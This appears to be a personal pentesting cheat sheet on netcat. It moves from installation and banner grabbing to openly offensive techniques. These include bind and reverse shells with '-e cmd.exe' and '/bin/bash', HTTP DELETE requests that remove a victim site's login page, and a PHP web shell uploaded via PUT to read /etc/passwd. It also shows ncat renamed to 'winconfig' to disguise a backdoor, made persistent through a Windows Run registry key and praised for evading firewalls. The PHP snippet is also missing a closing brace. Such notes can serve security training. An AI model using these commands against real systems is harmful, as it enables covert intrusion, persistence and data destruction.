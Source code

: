 ```yaml
---
title: netcat
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - http
---
```


# netcat

## Installation

Preinstalled in kali. Netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

For windows: [https://nmap.org/ncat/](https://nmap.org/ncat/).

For linux: 

```bash
sudo apt install ncat
```


## Usage

It’s used for HTTP

```bash
nc $ip <port> -flags
```

### Fingerprinting with netcat

```bash
nc $ip 80
HEAD / HTTP/1.0     
# And hit RETURN twice
```

Also, Nmap does not always recognize all information by default. Sometimes you can use netcat to interpelate a service:

```shell-session
 nc -nv $ip <PORT NUMBER>
```




## Netcat commands


### As a server

```bash
nc -lvp 8888
#-p: specify a port
#-l: to listening
#-v: verbosity
#-u: enforces udp connection
#-e: executes the given command
```

### As a client

```bash
nc -v $ip <port>
```


## Transfer data

On the server side:

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side:

```bash
echo “hello” | nc -v $ip <port>
```



## Transfer data and save it in a file

On the server side: 

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
echo “hello” | nc -v $ip <port>
```

## Transfer file and save it 

On the server side: 

```bash
# Received data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
cat tobesentfiel.txt | nc -v $ip <port>
```

## Netcat shell

On the server side:

```bash
nc -lvp <port> -e /bin/bash
```

On the client side:

```bash
nc -v $ip <port>
```


## Some enumeration techniques for HTTP verbs

```bash
# Send a OPTIONS message with netcat
nc victim.target 80
OPTIONS / HTTP/1.0

```



## Some exploitation techniques for HTTP verbs


### DELETE attack


```bash
# General syntax for removing a resource from server using netcat
nc victim.site 80
DELETE /path/to/resource.txt HTTP/1.0


# Example for removing the login page of a site
nc victim.site 80
DELETE /login.php HTTP/1.0

```

### PUT attack: getting a shell

```bash
# Save for instance a php basic shell in a file (shell.php):

<?php 
if (isset($_GET[‘cmd’]))
{
	$cmd = $_GET[‘cmd’];
	echo ‘<pre>’;
	$result = shell_exec($cmd);
	echo $result;
	echo ‘</pre>’;
?>


# Count the size of the file
wc -m shell.php

# Send with netcat the HTTP verb message
nc victim.site 80
PUT /shell.php HTTP/1.0
Conten-type: text/html
Content-length: [number you got with wc -m payload]
 

# Run the exploit by typing in the browser:
http://victim.site/shell.php?cmd=cat+/etc/passwd
```

## Backdoors with netcat

### The attacker initiates the connection

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
wincofig -l -p <port> -e cmd.exe
# Example: wincofig -l -p 5555 -e cmd.exe
```

**In the attacker machine**:

```
ncat <victim IP address> <port specified>
# Example: ncat 192.168.0.40 5555
```

### The victim initiates the connection

Great to avoid firewalls!!!

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
winconfig -e cmd.exe <attacker IP> <port>
# Example: winconfig -e cmd.exe 192.168.1.40 5555
```
**In the attacker machine**:

```
ncat -l -p <port> -v
# Example: ncat -l -p 5555 -v
```

## Creating a registry in regedit

- In regedit, go to Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
- Right-Button > New > String value
- We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>
- We edit the registry and we add the path to the executable file and some commands  in the Value data:

```
“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”
# For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```
 
